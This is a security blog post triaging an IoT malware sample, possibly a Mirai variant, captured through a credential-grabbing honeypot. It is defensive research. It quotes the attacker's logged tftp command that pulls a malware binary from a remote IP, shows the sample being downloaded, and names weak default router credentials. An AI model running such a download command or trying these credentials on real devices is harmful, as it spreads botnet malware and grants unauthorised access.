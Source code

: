 ```yaml
---
layout: post
title: 7up (Mirai?) Triage, More IoT Malware Targeting Weak Passwords
description: "7up (Mirai?) Triage, More IoT Malware Targeting Weak Passwords"
modified: 2016-12-21
tags: [security, research, honeypots, IoT, credentials, Mirai]
image:
  feature: grey-scale-dark.jpg
comments: true
share: true
---
```


In a previous [post](/adventures-with-heralding-a-credential-grabbing-honeypot/), I discussed some of my experiences with [heralding](https://github.com/johnnykv/heralding), a credential grabbing honeypot.  In this post, I will briefly analyze a sample I obtained from tftp'ing a sample based on heralding log entries.  This sample appears to be targetted at MIPS based systems installs that use very weak default creds (root:5up, Admin:5up).  There are a few devices that I could find that uses these creds.  There are likely many more. 

* [TP-Link (TL-WR740N)](https://jalalsela.wordpress.com/2014/11/01/hacking-into-tp-link-tl-wr740n/)
* [Atheros AR5BAP-00033](https://wikidevi.com/wiki/Atheros_AR5BAP-00033)
* [Brovis AC100 User Manual](https://www.scribd.com/document/45861492/AC100-User-Manual)

In my previous post I mentioned that I was not able to download a sample from the tftp commands.  Well today, I was finally able to download one of the samples via tftp without it timing out.  

{% highlight bash %}
# Command from Heralding log: tftp -l 7up -r 7up -g 89.33.64.118
$ tftp 
tftp> connect 89.33.64.118
tftp> get 7up
Received 45065 bytes in 6.4 seconds
$ md5sum 7up 
3f3863996071b4f32ca8f8e1bfe27a45  7up
{% endhighlight %}

<img src="/images/mirai-sample-from-heralding.png" />

According to 3 AVs on Virustotal, [3f3863996071b4f32ca8f8e1bfe27a45](https://www.virustotal.com/en/file/0a7fe5fc238f4394145cafdd6584d46fa2d21afd7470c96de335f0ae8bd150a5/analysis/) is Mirai, BUT the IPs performing the telnet scans only attempted 2 username/password combinations (and the [Mirai source code](https://github.com/James-Gallagher/Mirai) uses many more so this may be a new variant or something completely different).
